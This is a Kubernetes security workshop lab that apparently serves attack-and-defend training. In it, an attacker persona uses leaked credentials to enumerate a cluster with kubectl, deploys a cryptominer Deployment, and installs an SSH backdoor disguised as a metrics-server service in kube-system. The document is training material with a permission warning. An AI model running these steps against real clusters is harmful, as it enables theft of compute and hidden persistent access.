 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space for specific issues
* Leverages off-the-shelf attacks

### Motivations

* __Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Initial Access

__Red__ purchased a bundle of leaked credentials online. One set of credentials appears to be for a publicly accessible kubernetes cluster. They've downloaded the creds and want to connect to the cluster to see what's available.

```console
cd ./workshop/scenario_1
export KUBECONFIG=./kubeconfig
```

## Getting Some Loot

Since __Red__ has high-level credentials to the cluster, the process is fairly simple to start. They need to identify the resources available to them by poking around, and then run the cryptominer as easily as possible.

Let's become __Red__ and try some basic information-gathering commands to get a feel for the environment.

What namespaces are already on the cluster?
```console
kubectl get namespaces
```
What workloads are in the default namespace?
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
cat > bitcoinero.yml <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    run: bitcoinero
  name: bitcoinero
  namespace: dev
spec:
  replicas: 1
  revisionHistoryLimit: 2
  selector:
    matchLabels:
      run: bitcoinero
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      labels:
        run: bitcoinero
    spec:
      containers:
      - image: securekubernetes/bitcoinero:latest
        name: bitcoinero
        command: ["./moneymoneymoney"]
        args:
        - -c
        - "1"
        - -l
        - "10"
        resources:
          requests:
            cpu: 100m
            memory: 128Mi
          limits:
            cpu: 200m
            memory: 128Mi 
EOF

kubectl apply -f bitcoinero.yml
sleep 10
kubectl get pods
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f backdoor.yaml
sleep 10
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```

_MISSION ACCOMPLISHED_
